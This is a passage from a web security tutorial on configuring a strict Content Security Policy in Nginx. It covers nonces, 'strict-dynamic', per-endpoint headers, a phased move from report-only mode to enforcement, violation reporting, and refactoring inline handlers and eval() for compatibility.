<Code lang="html" aria-label="strict-dynamic inheritance example">
```html
<!-- This script has a valid nonce -->
<script nonce="abc123">
  // This dynamically created script ALSO runs
  const script = document.createElement('script');
  script.src = 'https://cdn.example.com/analytics.js';
  document.head.appendChild(script);
</script>
```
</Code>

<Callout type="warning">
  **Important:** When `'strict-dynamic'` is present, allowlist sources like `'self'` or `https://example.com` are **ignored** for script loading. Only nonces/hashes grant initial trust—dynamically loaded scripts inherit it.
</Callout>

### When to use `'strict-dynamic'`

<Table title="strict-dynamic Use Cases">
  <thead>
    <tr>
      <th>Scenario</th>
      <th>Use strict-dynamic?</th>
      <th>Reason</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>SPA with code splitting</td>
      <td><strong>Yes</strong></td>
      <td>Webpack/Vite load chunks dynamically</td>
    </tr>
    <tr>
      <td>Analytics (GA, Segment)</td>
      <td><strong>Yes</strong></td>
      <td>Analytics often load additional scripts</td>
    </tr>
    <tr>
      <td>Third-party widgets</td>
      <td><strong>Yes</strong></td>
      <td>Chat widgets, embedded content load dependencies</td>
    </tr>
    <tr>
      <td>Simple static site</td>
      <td>Optional</td>
      <td>If all scripts are in HTML, nonces alone suffice</td>
    </tr>
    <tr>
      <td>No JavaScript at all</td>
      <td>No</td>
      <td>Use <code>script-src 'none'</code> instead</td>
    </tr>
  </tbody>
</Table>

---

## The strict CSP formula

Up until now, we've been building toward what the security community calls a "strict CSP." This isn't just marketing terminology—it's a specific configuration pattern that Google's security team has validated through extensive research. Their analysis of millions of websites found that traditional allowlist-based CSPs have a 94.72% bypass rate, while strict CSPs with nonces remain effective against modern attacks.

Based on [Google's research](https://web.dev/articles/strict-csp), a "strict CSP" requires these four elements:

<CheckList title="Strict CSP Requirements">
  <li data-check="check">Uses **nonces** or **hashes** instead of domain allowlists</li>
  <li data-check="check">Includes **`'strict-dynamic'`** for dynamic script loading</li>
  <li data-check="check">Sets **`object-src 'none'`** to block plugins</li>
  <li data-check="check">Sets **`base-uri 'none'`** to prevent base tag injection</li>
</CheckList>

All major browsers now support the key directives required for strict CSP. Safari was the last holdout for `'strict-dynamic'` support, adding it in version 15.4 (2022). This means you can confidently deploy strict CSP today without worrying about browser compatibility for the vast majority of users.

<BrowserSupport
  title="strict-dynamic Browser Support"
  browsers={[
    { browser: "chrome", version: "52", support: "full" },
    { browser: "firefox", version: "52", support: "full" },
    { browser: "safari", version: "15.4", support: "full", note: "Added in 2022" },
    { browser: "edge", version: "79", support: "full" },
  ]}
/>

Here's the minimal template for a strict CSP. These three directives form the critical core:

<Code lang="nginx" aria-label="Strict CSP template">
```nginx
# Strict CSP template
script-src 'nonce-$cspNonce' 'strict-dynamic';
object-src 'none';
base-uri 'none';
```
</Code>

### Why allowlists don't work

Traditional allowlist CSPs like `script-src 'self' https://cdn.example.com` are easily bypassed:

<Callout type="warning" icon="mdi:alert">
  **94.72% of allowlist CSPs can be bypassed** ([Google Research](https://research.google.com/pubs/pub45542.html))
  
  Common bypass vectors:
  - JSONP endpoints on trusted domains
  - CDNs hosting attacker-controlled content
  - AngularJS template injection on allowed domains
</Callout>

---

## Advanced: per-endpoint CSP

So far we've applied a single CSP to our entire site. But in practice, different parts of your site may have different security requirements. A one-size-fits-all approach can be either too restrictive (breaking functionality) or too permissive (weakening security).

Consider these scenarios where per-endpoint CSP makes sense:

- **Admin panels** vs **public pages**: Admin areas might need stricter CSP than content pages
- **API endpoints**: JSON APIs don't need CSP at all (browsers don't execute JS from JSON responses)
- **Static assets**: Images and fonts have different requirements than HTML documents
- **Embedded widgets**: Pages designed to be iframed may need `frame-ancestors` configured differently

The most common pattern is splitting CSP between HTML pages and static assets:

- **Strict CSP** for HTML pages (maximum protection where scripts execute)
- **Relaxed CSP** for static assets (allow external tools to access images)

### Why relax CSP for assets?

Social media crawlers and link preview tools need to access your images. When you share a link on Twitter, LinkedIn, or Slack, their servers fetch your page's Open Graph images. If your CSP includes `Cross-Origin-Resource-Policy: same-origin` on everything, these platforms won't be able to show preview images—users will just see a blank or broken preview.

### Implementation with Nginx

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    server_name example.com;
    
    # Default: strict CSP for HTML pages
    location / {
        try_files $uri $uri/ =404;
        include /etc/nginx/snippets/security_headers.conf;
    }
    
    # Relaxed CSP for assets (images, fonts, etc.)
    location /assets/ {
        expires 1y;
        add_header Cache-Control "public, immutable";
        include /etc/nginx/snippets/security_headers_assets.conf;
    }
}
```
</FileContent>

<Tabs>
  <TabPanel label="security_headers.conf (Strict)">
    ```nginx
    # Full CSP with nonces for HTML pages
    add_header Content-Security-Policy "
        default-src 'none';
        script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
        style-src 'self' 'unsafe-inline';
        img-src 'self' data:;
        ...
    " always;
    
    # Prevent embedding
    add_header Cross-Origin-Resource-Policy "same-origin" always;
    ```
  </TabPanel>
  <TabPanel label="security_headers_assets.conf (Relaxed)">
    ```nginx
    # Simplified CSP for static assets
    add_header Content-Security-Policy "
        default-src 'none';
        img-src 'self' data:;
        font-src 'self';
        style-src 'unsafe-inline';
    " always;
    
    # Allow cross-origin access (for social media crawlers)
    add_header Cross-Origin-Resource-Policy "cross-origin" always;
    ```
  </TabPanel>
</Tabs>

<Callout type="info">
  **Key difference:** The assets config uses `Cross-Origin-Resource-Policy: cross-origin` to allow external sites to embed your images in previews, while HTML pages use `same-origin` for maximum protection.
</Callout>

---

## Migration: report-only to enforcement

Deploying CSP is not like deploying a typical code change. A misconfigured CSP can break critical site functionality—imagine accidentally blocking your checkout flow or login system. This is why production CSP deployment requires a careful, phased approach.

The golden rule: **never deploy a strict CSP directly to production**. Instead, use a gradual "observe, fix, then enforce" methodology:

<StepByStep title="Safe Migration Process">
  <li>
    **Deploy in report-only mode (1-2 weeks)**
    <br/>Use `Content-Security-Policy-Report-Only` to log violations without blocking anything.
  </li>
  <li>
    **Analyze and fix violations**
    <br/>Review reports and address: inline event handlers → `addEventListener()`, `eval()` → `JSON.parse()`, missing nonces, third-party script issues.
  </li>
  <li>
    **Enable enforcement gradually**
    <br/>Switch from `Report-Only` to `Content-Security-Policy`. Keep report-only for testing stricter policies.
  </li>
</StepByStep>

### Phase 1: Report-only mode

Use `Content-Security-Policy-Report-Only` to log violations without blocking:

<Code lang="nginx" aria-label="Report-only mode">
```nginx
# Reports violations but doesn't block anything
add_header Content-Security-Policy-Report-Only "
    default-src 'none';
    script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data:;
    font-src 'self';
    connect-src 'self';
    object-src 'none';
    base-uri 'none';
    frame-ancestors 'none';
    form-action 'self';
    upgrade-insecure-requests;
    report-uri /csp-reports;
" always;
```
</Code>

### Phase 2: Analyze and fix

Review your violation reports and fix issues:

<CheckList title="Common Issues to Fix">
  <li data-check="warning">**Inline event handlers** → Convert to `addEventListener()`</li>
  <li data-check="warning">**`eval()` usage** → Replace with `JSON.parse()` or refactor</li>
  <li data-check="warning">**Missing nonces** → Add `nonce="CSP_NONCE_NGINX"` to inline scripts</li>
  <li data-check="warning">**Third-party scripts** → Verify `'strict-dynamic'` covers them</li>
</CheckList>

### Phase 3: Enable enforcement

Once violations are minimal:

<Code lang="nginx" aria-label="Enforcement mode">
```nginx
# Now blocking violations
add_header Content-Security-Policy "..." always;

# Optional: keep report-only for testing stricter future policies
add_header Content-Security-Policy-Report-Only "...stricter-policy..." always;
```
</Code>

---

## Setting up CSP reporting

One of CSP's most powerful features is its built-in reporting mechanism. When a browser blocks a resource due to CSP, it can automatically send a detailed report to an endpoint you specify. This creates a feedback loop that serves multiple purposes:

- **Detect real attacks**: If someone tries to inject scripts into your site, you'll know immediately
- **Find policy bugs**: Discover if your CSP is blocking legitimate resources before users complain
- **Monitor third-party scripts**: Track when analytics or ad scripts load unexpected dependencies
- **Audit compliance**: Maintain a log of security events for compliance requirements

Reports contain rich information including the violated directive, the blocked URL, the page where it occurred, and even a sample of the offending code. This makes them invaluable for both development and security monitoring.

<StateNotice
  type="deprecated"
  feature="report-uri"
  title="report-uri is deprecated"
  alternative="report-to"
  alternativeUrl="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-to"
/>

<Callout type="info">
  **For maximum browser compatibility, use both `report-uri` and `report-to`:**
  - Chrome 70+ uses `report-to` and ignores `report-uri` when both are present
  - Firefox and Safari still rely on `report-uri`
</Callout>

### Option 1: Simple Nginx logging (legacy + modern)

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
# Reporting endpoint for CSP violations
location /csp-reports {
    access_log /var/log/nginx/csp-reports.log;
    return 204;
}
```
</FileContent>

Configure both `report-uri` and `report-to` in your CSP:

<FileContent filename="/etc/nginx/snippets/security_headers.conf" icon="devicon:nginx">
```nginx
# Modern Reporting API endpoint (CSP Level 3)
add_header Reporting-Endpoints 'csp-endpoint="/csp-reports"' always;

# CSP with both legacy and modern reporting
add_header Content-Security-Policy "
    default-src 'none';
    script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
    ...
    report-uri /csp-reports;
    report-to csp-endpoint;
" always;
```
</FileContent>

### Option 2: Third-party service

Services like [Report URI](https://report-uri.com/) provide dashboards and analysis:

<Code lang="nginx" aria-label="Third-party reporting">
```nginx
report-uri https://your-subdomain.report-uri.com/r/d/csp/enforce;
report-to csp-endpoint;
```
</Code>

### Violation report format

Browsers send JSON reports like this:

<FileContent filename="csp-violation-report.json" icon="mdi:code-json">
```json
{
  "csp-report": {
    "document-uri": "https://example.com/page",
    "violated-directive": "script-src-elem",
    "blocked-uri": "inline",
    "line-number": 42,
    "source-file": "https://example.com/page",
    "script-sample": "alert('blocked!')"
  }
}
```
</FileContent>

---

## Refactoring code for CSP

Some common patterns are incompatible with strict CSP. Here's how to fix them:

### Inline event handlers → addEventListener

<CompareCode badTitle="Blocked by CSP" goodTitle="CSP-Compatible">
  <div slot="bad">
    ```html
    <button onclick="submitForm()">Submit</button>
    <a href="javascript:doSomething()">Click</a>
    ```
  </div>
  <div slot="good">
    ```html
    <button id="submitBtn">Submit</button>
    <a href="#" id="actionLink">Click</a>
    
    <script nonce="CSP_NONCE_NGINX">
      document.getElementById('submitBtn')
        .addEventListener('click', submitForm);
      document.getElementById('actionLink')
        .addEventListener('click', (e) => {
          e.preventDefault();
          doSomething();
        });
    </script>
    ```
  </div>
</CompareCode>

### eval() → JSON.parse()

<CompareCode badTitle="Uses eval() - Blocked" goodTitle="Uses JSON.parse() - Allowed">
  <div slot="bad">
    ```javascript
    const data = eval('(' + jsonString + ')');
    setTimeout('doSomething()', 1000);
    ```
  </div>
  <div slot="good">
    ```javascript
    const data = JSON.parse(jsonString);
    setTimeout(doSomething, 1000);
    ```
  </div>
</CompareCode>

---

## Testing and validation

### Browser DevTools

Your best friend for CSP debugging. Open F12 → Console to see violations in real-time:

<TerminalOutput title="CSP Violation in Browser Console">
Refused to execute inline script because it violates the following Content 
Security Policy directive: "script-src 'nonce-abc123' 'strict-dynamic'". 
Either the 'unsafe-inline' keyword, a hash, or a nonce is required.
</TerminalOutput>

### Online tools

<Table title="CSP Testing Tools">
  <thead>
    <tr>
      <th>Tool</th>
      <th>Purpose</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><a href="https://observatory.mozilla.org/" target="_blank" rel="noopener noreferrer"><strong>Mozilla Observatory</strong></a></td>
      <td>Comprehensive security header grading (A+ possible)</td>
    </tr>
    <tr>
      <td><a href="https://csp-evaluator.withgoogle.com/" target="_blank" rel="noopener noreferrer"><strong>Google CSP Evaluator</strong></a></td>
      <td>Finds logical bypasses in your policy</td>
    </tr>
    <tr>
      <td><a href="https://securityheaders.com/" target="_blank" rel="noopener noreferrer"><strong>SecurityHeaders.com</strong></a></td>
      <td>Quick header analysis and scoring</td>
    </tr>
    <tr>
      <td><a href="https://report-uri.com/home/hash" target="_blank" rel="noopener noreferrer"><strong>CSP Hash Generator</strong></a></td>
      <td>Generate hashes for inline scripts</td>
    </tr>
  </tbody>
</Table>

---

## Common pitfalls

### 1. Using `'unsafe-inline'` for scripts

<CompareCode badTitle="Defeats CSP protection" goodTitle="Use nonces instead">
  <div slot="bad">
    ```nginx
    script-src 'self' 'unsafe-inline';
    ```
  </div>
  <div slot="good">
    ```nginx
    script-src 'self' 'nonce-$cspNonce';
    ```
  </div>
</CompareCode>

### 2. Allowing `https:` as a source

<Code lang="nginx" aria-label="Overly permissive source">
```nginx
# DANGER: Trusts the entire internet!
script-src 'self' https:;
```
</Code>

This allows any script from any HTTPS domain to execute, completely defeating CSP's purpose.

### 3. Forgetting `object-src` and `base-uri`

<CompareCode badTitle="Incomplete protection" goodTitle="Complete strict CSP">
  <div slot="bad">
    ```nginx
    script-src 'nonce-$cspNonce';
    # Missing object-src and base-uri!
    ```
  </div>
  <div slot="good">
    ```nginx
    script-src 'nonce-$cspNonce' 'strict-dynamic';
    object-src 'none';
    base-uri 'none';
    ```
  </div>
</CompareCode>

### 4. Missing `always` in Nginx

<CompareCode badTitle="Only 2xx responses" goodTitle="All responses (including errors)">
  <div slot="bad">
    ```nginx
    add_header Content-Security-Policy "...";
    ```
  </div>
  <div slot="good">
    ```nginx
    add_header Content-Security-Policy "..." always;
    ```
  </div>
</CompareCode>

Without `always`, CSP headers won't be sent on error pages (404, 500), leaving those pages vulnerable.

### 5. `add_header` inheritance gotcha

When you use `add_header` in a nested location block, it **replaces all parent headers**:

<Code lang="nginx" aria-label="Header inheritance problem">
```nginx
location / {
    add_header Content-Security-Policy "..." always;
    add_header X-Frame-Options "DENY" always;
}

location /assets/ {
    # WARNING: This REPLACES parent headers, not adds to them!
    add_header Cache-Control "public, immutable" always;
    # CSP and X-Frame-Options are now MISSING here!
}
```
</Code>

**Solution:** Use `include` to share headers across locations, or repeat all headers in nested blocks.

---

## Complete production example

Here's a production-ready Nginx configuration with CSP:

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    listen [::]:443 ssl;
    http2 on;
    server_name example.com;
    
    root /var/www/example.com;
    index index.html;
    
    # CSP nonce setup
    set $cspNonce $request_id;
    sub_filter_once off;
    sub_filter_types text/html text/css application/javascript;
    sub_filter CSP_NONCE_NGINX $cspNonce;
    
    # Build CSP header
    set $csp "default-src 'none'; ";
    set $csp "${csp}script-src 'self' 'nonce-${cspNonce}' 'strict-dynamic'; ";
    set $csp "${csp}style-src 'self' 'unsafe-inline'; ";
    set $csp "${csp}img-src 'self' data:; ";
    set $csp "${csp}font-src 'self'; ";
    set $csp "${csp}connect-src 'self'; ";
    set $csp "${csp}object-src 'none'; ";
    set $csp "${csp}base-uri 'none'; ";
    set $csp "${csp}frame-ancestors 'none'; ";
    set $csp "${csp}form-action 'self'; ";
    set $csp "${csp}upgrade-insecure-requests; ";
    set $csp "${csp}report-uri /csp-reports; ";
    set $csp "${csp}report-to csp-endpoint";
    
    # Reporting API endpoint (for modern browsers)
    add_header Reporting-Endpoints 'csp-endpoint="/csp-reports"' always;
    add_header Content-Security-Policy $csp always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-Frame-Options "DENY" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
    
    location / {
        try_files $uri $uri/ =404;
    }
    
    location /csp-reports {
        access_log /var/log/nginx/csp-reports.log;
        return 204;
    }
}
```
</FileContent>

---

## Summary: your CSP journey

1. **Start simple**: `default-src 'self'`
2. **Add directives progressively**: scripts, styles, images, etc.
3. **Handle inline scripts**: Move to files, use hashes, or use nonces
4. **For static sites**: Use Nginx `sub_filter` for nonce injection
5. **Go strict**: Add `'strict-dynamic'`, `object-src 'none'`, `base-uri 'none'`
6. **Deploy safely**: Start with report-only mode
7. **Monitor**: Set up reporting to catch violations

<Callout type="success" icon="mdi:trophy">
  **Result:** Following this guide, you can achieve an A+ rating on [Mozilla Observatory](https://observatory.mozilla.org/) while maintaining full site functionality.
</Callout>

---

## Resources

### Official Documentation
- [MDN: Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [W3C CSP Level 3 Specification](https://www.w3.org/TR/CSP3/)
- [Google web.dev: Strict CSP](https://web.dev/articles/strict-csp)

### Best Practices
- [OWASP CSP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- [CSP Is Dead, Long Live Strict CSP](https://research.google.com/pubs/pub45542.html) — Google's research

### Tools
- [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- [Report URI](https://report-uri.com/)
- [content-security-policy.com](https://content-security-policy.com/)